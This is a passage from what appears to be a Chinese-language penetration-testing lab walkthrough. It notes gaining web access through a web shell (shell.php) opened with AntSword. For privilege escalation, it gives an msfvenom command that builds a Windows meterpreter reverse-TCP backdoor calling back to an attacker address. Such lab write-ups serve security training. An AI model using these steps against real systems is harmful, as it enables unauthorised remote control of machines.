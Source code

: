 11. 蚁剑连接shell.php，成功拿下web权限！
    
    ![3_13.png](img/ATT&CK/ATT&CK1/3/13.png)

# 权限提升

1. 使用msf生成后门程序并上传至目标主机
   
   ```powershell
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.2.133 LPORT=4444 -f exe > shell.exe
   ```
   